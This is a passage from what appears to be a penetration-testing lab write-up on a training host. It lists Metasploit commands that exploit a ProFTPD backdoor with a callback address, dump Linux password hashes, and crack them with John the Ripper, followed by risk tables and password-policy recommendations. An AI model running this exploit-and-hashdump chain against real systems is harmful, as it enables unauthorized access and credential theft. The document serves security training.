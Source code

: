 ```markdown
**Impact:** Complete system compromise with administrative access
**Evidence:** Full password recovery demonstrating weak security policies

### Recommendations:
1. **Implement Strong Password Policy:** Minimum 12 characters with complexity
2. **Enable Account Lockout:** Prevent brute force attacks
3. **Regular Password Audits:** Proactive weakness identification
4. **Multi-Factor Authentication:** Additional security layer for critical accounts
```

### **Detailed Technical Report:**
```markdown
## Comprehensive Hash Cracking Analysis

### Commands Executed:
```bash
# Initial system compromise
msfconsole -q
use exploit/unix/ftp/proftpd_133c_backdoor
set RHOSTS demo.ine.local
set LHOST 192.70.114.2
exploit -z

# Hash extraction process
use post/linux/gather/hashdump
set SESSION 1
exploit

# Automated cracking attempt
use auxiliary/analyze/crack_linux
set SHA512 true
run

# Manual verification
john --show /root/.msf4/loot/*linux.hashes*.txt
```

### Technical Analysis:
| Component | Status | Risk Level | Details |
|-----------|---------|------------|---------|
| Password Policy | WEAK | CRITICAL | Simple passwords allowed |
| Hash Algorithm | STRONG | LOW | SHA-512 properly implemented |
| Storage Security | COMPROMISED | HIGH | Root access bypassed protection |
| Account Management | POOR | HIGH | No lockout or monitoring |

### Hash Analysis Details:
**Algorithm Used:** SHA-512 crypt with salt
**Salt Strength:** 8 characters (adequate)
**Iteration Count:** Standard (5000 rounds)
**Vulnerability:** Weak base passwords negate strong hashing
